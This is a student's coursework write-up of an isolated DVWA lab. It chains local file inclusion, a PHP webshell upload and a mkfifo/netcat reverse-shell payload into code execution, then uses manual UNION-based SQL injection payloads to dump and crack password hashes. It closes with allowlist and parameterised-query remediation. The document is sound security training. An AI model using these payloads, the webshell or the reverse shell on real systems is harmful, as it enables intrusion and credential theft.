








# S10: File Inclusion and SQL Injection

| | |
|---|---|
| **Student** | Muhammad Uzair Arif |
| **Cohort** | 02-Weekend-ISB |
| **Programme** | Digital Forensics & Cyber Security (DFCS) - Atomcamp |
| **Tasks** | A (LFI to RCE, 20) · B (manual SQLi, 20) · C (remediation, 10) |
| **Environment** | DVWA (Low security) hosted on my Kali Linux VM at `10.0.2.4`, isolated VirtualBox NAT lab |
| **Authorisation** | DVWA runs inside my own lab VM. No system outside my laboratory was contacted. |

**Contents:** [Lab setup](#lab-setup) · [Task A: LFI to RCE](#task-a--lfi-to-rce) · [Task B: manual SQLi](#task-b--manual-sql-injection-no-sqlmap) · [Task C: remediation](#task-c--remediation) · [Evidence index](#evidence-index)

> Note: screenshots in this submission have the PHPSESSID cookie removed (cropped or blurred) as required.

---

# Lab setup

DVWA runs on my Kali VM itself. Setup was:

```bash
sudo apt install -y apache2 mariadb-server php php-mysqli php-gd git
sudo mysql -e "CREATE DATABASE dvwa; CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'p@ssw0rd'; GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost'; FLUSH PRIVILEGES;"
sudo git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
sudo cp /var/www/html/dvwa/config/config.inc.php.dist /var/www/html/dvwa/config/config.inc.php
sudo chown -R www-data:www-data /var/www/html/dvwa/hackable/uploads /var/www/html/dvwa/config
```

Then `http://localhost/dvwa/setup.php` created the database, and I logged in as `admin:password` with DVWA Security set to **Low**.





Hosting DVWA on Kali matters for Task A: the target is current Kali, so the reverse shell in the chain runs on exactly the system the handout asks about.

---

# Task A - LFI to RCE

## Step 1: the page parameter

```text
http://localhost/dvwa/vulnerabilities/fi/index.php
```

With no `page` value DVWA falls back to `include.php`. The page value is passed straight into a PHP `include()` call, unvalidated input reaching an interpreter: the same root cause class as SQL injection, which is why both tasks share one fix pattern.


**PHP 8 note:** requesting `?page=` with a completely empty value crashes the page on PHP 8: `include("")` throws an uncaught `ValueError: Path must not be empty`, which Apache logs as a 500. I hit exactly that and captured it in the Apache error log. On PHP 7 the same request only produced a warning, which is why older DVWA walkthroughs show a different behaviour.



## Step 2: the error message reveals the path

With display errors enabled in the lab (see the note above), request a file that does not exist:

```text
?page=doesnotexist.txt
```

PHP prints:

```text
Warning: include(doesnotexist.txt): Failed to open stream: No such file or directory
  in /var/www/html/dvwa/vulnerabilities/fi/index.php on line 36
Warning: include(): Failed opening 'doesnotexist.txt' for inclusion
  (include_path='.:/usr/share/php') in /var/www/html/dvwa/vulnerabilities/fi/index.php on line 36
```

**What the path reveals:** the warnings leak the absolute filesystem location of the vulnerable script, `/var/www/html/dvwa/vulnerabilities/fi/index.php` on line 36, plus the server's include_path. From that, an attacker knows exactly how many `../` steps reach the filesystem root and where the application keeps its uploads.



## Step 3: directory traversal

```text
?page=../../../../../../etc/passwd
```

Six `../` steps climb from `fi/` to the root, and the password file renders in the page.



## Step 4: upload a webshell

The **File Upload** page (Low) accepts any file. I uploaded `shell.php`:

```php
<?php system($_GET['c']); ?>
```

DVWA saves it to `/var/www/html/dvwa/hackable/uploads/shell.php`.



## Step 5: include the shell, RCE achieved

```text
?page=../../hackable/uploads/shell.php&c=id
```

The `id` output renders in the page: `uid=33(www-data) gid=33(www-data)`.



## Step 6: reverse shell on current Kali

A listener started first:

```bash
nc -lvnp 4444
```

Then the URL with the fifo reverse-shell payload (URL-encoded, `&` encoded as `%26` so it does not break the GET parameter):

```text
?page=../../hackable/uploads/shell.php&c=rm%20/tmp/f%3Bmkfifo%20/tmp/f%3Bcat%20/tmp/f%7C/bin/sh%20-i%202%3E%261%7Cnc%2010.0.2.4%204444%20%3E/tmp/f
```

The listener catches the shell:

```text
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



**Why `nc -e` does not work:** current Kali ships the OpenBSD netcat, which deliberately removed the `-e` execution flag, so the named-fifo pipe plus `/bin/sh` replaces it.

## Impact

A file-inclusion flaw that accepts any path, combined with an unrestricted upload, becomes unauthenticated remote code execution as the web service account. From `www-data`, the attacker reads configuration files, pivots to database credentials stored in `config.inc.php`, and escalates further.

## Remediation

Allowlist the pages that may be included (Task C covers this in detail), and block executable uploads by type, content and directory.

---

# Task B - Manual SQL injection (no sqlmap)

DVWA Security: Low. Every payload was entered in the User ID field of the SQL Injection page, and every response was captured. No automated tool was used.

## Payload 1: the quote breaks the query

```text
'
```

```text
You have an error in your SQL syntax ... for the right syntax to use near '' at line 1
```

The raw error proves the input lands inside an SQL string and that errors are displayed, which is free reconnaissance for the attacker.


## Payload 2: ORDER BY counts the columns

```text
1' ORDER BY 2-- -
1' ORDER BY 3-- -
```

`ORDER BY 2` renders normally, `ORDER BY 3` returns `Unknown column '3' in 'order clause'`. The query returns exactly two columns.

## Payload 3: UNION confirms the shape and pulls server data

```text
1' UNION SELECT version(),database()-- -
```

Prints the MariaDB version and `dvwa` as the current database.

## Payload 4: enumerate tables

```text
1' UNION SELECT table_schema,table_name FROM information_schema.tables-- -
```

Lists every database and table, including `dvwa.users` and `dvwa.guestbook`.

## Payload 5: enumerate the users columns

```text
1' UNION SELECT NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name='users'-- -
```

Prints `user_id, first_name, last_name, user, password, avatar, last_login, failed_login_count`.


## Payload 6: dump the credentials

```text
1' UNION SELECT user,password FROM users-- -
```

Five rows of usernames with MD5 password hashes, including admin's `5f4dcc3b5aa765d61d8327deb882cf99`.

## Payload 7: one-line dump with group_concat

```text
1' UNION SELECT NULL,group_concat(user,':',password) FROM users-- -
```

Every credential pair printed in a single row, which is the `group_concat()` step the handout asks for.


## Closing the chain: crack a hash

```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > h.txt
john --format=raw-md5 h.txt
```

```text
password         (?)
```

The dumped hash is admin's real password, so the injection leads to login access, not just data display.


## Impact

Unauthenticated SQL injection on the login ID parameter dumps the entire user table, including password hashes. Cracked hashes mean account takeover; the same injection could read or modify any table the web account can reach.

## Remediation

Parameterised queries with a least-privilege database user. Task C compares this with the file-inclusion fix.

---

# Task C - Remediation

## The fix for file inclusion

The root cause is user input reaching `include()`. The fix is to remove user input from that decision entirely:

```php
<?php
$allowed = ['include.php', 'file1.php', 'file2.php', 'file3.php'];
$page = $_GET['page'] ?? 'include.php';
if (!in_array($page, $allowed, true)) {
    $page = 'include.php';
}
include($page);
?>
```

Supporting controls: set `allow_url_include=Off` and `allow_url_fopen=Off`, and never attempt to fix traversal by stripping `../` characters, which attackers evade with encodings and wrappers.

## The fix for SQL injection

The root cause is user input concatenated into a query string. The fix is to send data and query separately so the database treats them as different things:

```php
$stmt = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = ?');
$stmt->bind_param('i', $id);
$stmt->execute();
```

The `i` binding forces the value to be an integer, so a payload like `' ORDER BY 3-- -` arrives as literal text, not SQL. Supporting controls: display no raw database errors in production, and give the web application a database account that can only touch the tables it needs.

## Why an allowlist beats a blocklist in both cases

A blocklist names the inputs you thought were dangerous: strip `../`, strip quotes, block `UNION`. It fails because attackers only need one variant you did not list. URL encoding, double encoding, PHP wrappers, `ORDER BY` instead of `UNION`, second-order input through stored data: every evasion passes a filter built on denial.

An allowlist inverts the logic. It defines the small set of acceptable values, and everything not on the list is rejected without inspection. In file inclusion the allowlist is the set of real pages. In SQL injection the allowlist is the type system: the parameter accepts one integer and nothing else, which is exactly what binding does. The blocklist must be right about every attack, forever. The allowlist only has to be right about the application, once. That is why both fixes above start by deciding what is allowed instead of what is forbidden.

---

# Evidence index

| File | What it shows |
|---|---|
| `Figures/s10-01-dvwa-low.png` | DVWA installed, security Low |
| `Figures/s10-02-empty-param.png` | File Inclusion with empty parameter |
| `Figures/s10-03-error-path.png` | Error message revealing the absolute path |
| `Figures/s10-04-traversal.png` | `/etc/passwd` through traversal |
| `Figures/s10-05-upload.png` | Webshell uploaded |
| `Figures/s10-06-rce.png` | `id` executed through LFI |
| `Figures/s10-07-reverse-shell.png` | Reverse shell caught by the listener |
| `Figures/s10-08-sqli-error.png` | Quote payload and SQL error |
| `Figures/s10-09-sqli-enum.png` | information_schema enumeration |
| `Figures/s10-10-sqli-dump.png` | Credential dump with group_concat |
| `Figures/s10-11-sqli-crack.png` | Cracked MD5 hash |

---

# References

1. OWASP, "Path Traversal". https://owasp.org/www-community/attacks/Path_Traversal
2. OWASP, "SQL Injection". https://owasp.org/www-community/attacks/SQL_Injection
3. OWASP Cheat Sheet Series, "SQL Injection Prevention". https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
4. PHP documentation, "include". https://www.php.net/manual/en/function.include.php
5. digininja, "DVWA". https://github.com/digininja/DVWA
6. MITRE CWE-98: Improper Control of Filename for Include/Require Statement. https://cwe.mitre.org/data/definitions/98.html
7. MITRE CWE-89: SQL Injection. https://cwe.mitre.org/data/definitions/89.html
